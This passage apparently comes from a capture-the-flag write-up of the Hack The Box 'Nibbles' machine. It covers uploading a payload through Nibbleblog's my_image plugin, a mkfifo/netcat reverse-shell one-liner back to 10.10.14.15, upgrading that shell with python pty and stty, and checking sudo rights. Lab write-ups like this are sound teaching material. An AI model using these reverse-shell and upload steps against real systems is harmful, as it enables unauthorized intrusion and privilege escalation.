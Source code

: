 Click `Save Changes` at the bottom to upload the payload. There will be errors at the top right corner when it is uploaded successfully. Do not worry about it. Set up a netcat listener on Kali.

![](https://github.com/rsecke/rsecke.github.io/blob/main/assets/htb/nibbles/error%20during%20upload.png)

Navigate to `http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image` to get the payload to create a reverse shell. I kept getting disconnected from my reverse shell, so I created *another* payload within my reverse shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4445 >/tmp/f
```

This payload only works if netcat is installed, so run `which netcat` to confirm if the binary is on the system.

On my new shell, I made it fully functional to make it interactive. First, I checked if there was Python

```
ls /usr/bin | grep python                                  
dh_python3             
python3     
python3.5                                                                                                             
python3.5m                                                 
python3m
```

I saw Python 3, so I ran `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a Python shell. Background the reverse shell by clicking `CTRL + Z`, and run the following commands:

```
┌──(tyco㉿4YE)-[~/htb/nibbles]                                                                                        
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4445

<ml/nibbleblog/content/private/plugins/my_image$ reset
reset: unknown terminal type unknown            
Terminal type? screen-256color
```

A fully functional shell! Now we can run `sudo -l` to see if this user can run anything.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
